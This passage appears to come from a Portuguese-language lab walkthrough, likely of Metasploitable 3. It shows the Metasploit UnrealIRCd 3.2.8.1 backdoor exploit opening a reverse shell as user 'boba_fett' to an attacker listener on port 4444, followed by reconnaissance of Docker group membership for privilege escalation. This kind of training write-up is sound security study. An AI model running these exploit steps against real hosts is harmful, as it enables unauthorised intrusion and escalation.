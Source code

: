 **Execução do Exploit:**

Ao executar o comando exploit, o módulo se conectou à porta 6697 do alvo, enviou o comando de backdoor e, após a comunicação entre os sockets, foi aberta uma shell com o usuário `boba_fett`:

```console
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
[*] Started reverse TCP double handler on 192.168.0.156:4444 
[*] 192.168.0.207:6697 - Connected to 192.168.0.207:6697...
    :irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
    :irc.TestIRC.net NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.0.207:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo sx7T7iEfmuCzX2Bz;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sx7T7iEfmuCzX2Bz\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.0.156:4444 -> 192.168.0.207:37116) at 2025-03-06 15:57:48 -0500

id
uid=1121(boba_fett) gid=100(users) groups=100(users),999(docker)
```

**Referências:**

- Rapid7 – Módulo do Exploit: https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor/

### Docker

Após obter acesso inicial ao sistema com o usuário `boba_fett`, foi identificado que este usuário fazia parte do grupo docker, o que permitia a execução de comandos diretamente no daemon Docker sem privilégios elevados.

```console
meterpreter > shell
Process 2889 created.
Channel 1 created.
id
uid=1121(boba_fett) gid=100(users) groups=100(users),999(docker)
groups
users docker
docker ps
CONTAINER ID        IMAGE                  COMMAND             CREATED             STATUS              PORTS               NAMES
65967e577dde        7_of_diamonds:latest   "/bin/bash"         4 years ago         Up 6 hours                              7_of_diamonds
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
7_of_diamonds       latest              889e19a44bad        4 years ago         73.6MB
ubuntu              latest              d70eaf7277ea        4 years ago         72.9MB
```
